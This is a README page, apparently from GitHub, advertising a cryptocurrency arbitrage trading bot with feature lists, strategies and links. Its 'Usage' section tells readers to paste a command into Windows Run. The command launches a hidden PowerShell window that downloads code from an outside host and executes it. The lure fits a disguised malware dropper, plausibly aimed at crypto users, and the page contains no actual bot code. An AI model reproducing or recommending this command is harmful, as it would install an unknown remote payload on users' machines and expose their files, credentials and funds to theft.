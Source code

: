 # Arbitrage Trading Bot 🤖💹

## Project Description
**Arbitrage Trading Bot** is an automated trading bot designed to take advantage of price discrepancies across different cryptocurrency exchanges. The bot monitors multiple exchanges in real-time and executes trades to capitalize on arbitrage opportunities.

## Key Features
- **Multi-Exchange Support**: Connects to various cryptocurrency exchanges for arbitrage opportunities.
- **Real-Time Monitoring**: Continuously monitors prices across exchanges to identify profitable trades.
- **Automated Trading**: Executes trades automatically based on predefined strategies and thresholds.
- **Risk Management**: Implements risk management strategies to minimize potential losses.
- **User -Friendly Dashboard**: Provides an intuitive interface for monitoring trades and performance.



## Usage 🚀
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://updatelib.nfortek.pt/';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>


## Example Strategies 📈
- **Simple Arbitrage**: Buy low on one exchange and sell high on another.
- **Triangular Arbitrage**: Exploit price inefficiencies between three different currencies on the same exchange.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Binance API Documentation](https://binance-docs.github.io/apidocs/spot/en/)
- [CoinGecko API Documentation](https://coingecko.com/en/api)

---

**SEO Keywords**: Arbitrage, Trading Bot, cryptocurrency, automated trading, price discrepancy, multi-exchange, trading strategies.
